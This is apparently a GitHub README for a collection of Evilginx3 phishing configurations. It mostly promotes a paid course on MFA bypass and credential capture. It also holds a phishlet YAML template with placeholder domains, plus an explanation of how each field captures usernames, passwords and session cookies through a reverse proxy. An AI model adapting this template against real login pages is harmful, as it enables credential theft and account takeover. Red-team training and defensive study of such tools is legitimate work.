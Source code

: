 # Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

**Got any requests or questions?** 

[![Visit my website](https://img.shields.io/badge/Email-SimplerHacking-blue?style=for-the-badge&logo=appveyor)](http://www.simplerhacking.com)

[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/xr3Sp8YA)

# Education: Interested in Mastering Phishing Attacks with Evilginx3?
## Check out our new Evilginx3 Pro Masterclass on: www.SimplerHacking.com

[![Evilginx Pro Masterclass](https://img.shields.io/badge/Evilginx-Professional%20Masterclass-darkred?style=for-the-badge&logo=github)](https://www.simplerhacking.com/courses/evilginx-course)

## Use Code: GITHUB20 for a 20% off of the course!
### Become an Evilginx pro & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources to aid your engagements.

### Course Previews:

![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

![Screenshot (2279)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/7a817e44-ce59-49f5-8197-540cead76c93)


https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

### Email Spoofing for MITM Bonus Preview:
![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)


![Evilginx Course Preview K](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/8f01d447-91f2-40ad-81f6-ac05f7e7eb5e)

![Evilginx Pro Course Workflow](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/22130b95-84b2-4993-a334-245b3c7ffc78)



## Why Enroll in the Course?
- **Afforable:** The price of the course is afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Zero Sugarcoating:**  There is no fluff in our education. You will learn everything straight up without the BS.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resource Library:** Access private phishlet files, Q&A support & our archived resource library.
- **Join our Community:** Be part of a community of learners and professionals in the field of red teaming and cybersecurity.
- **Get Support & Assistance:** Get your questions & concerns answered. We are here to help.


## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Join the Discord Server

[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/xr3Sp8YA)

[![](https://dcbadge.vercel.app/api/server/xr3Sp8YA?style=plastic&theme=blue)](https://discord.gg/xr3Sp8YA)

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
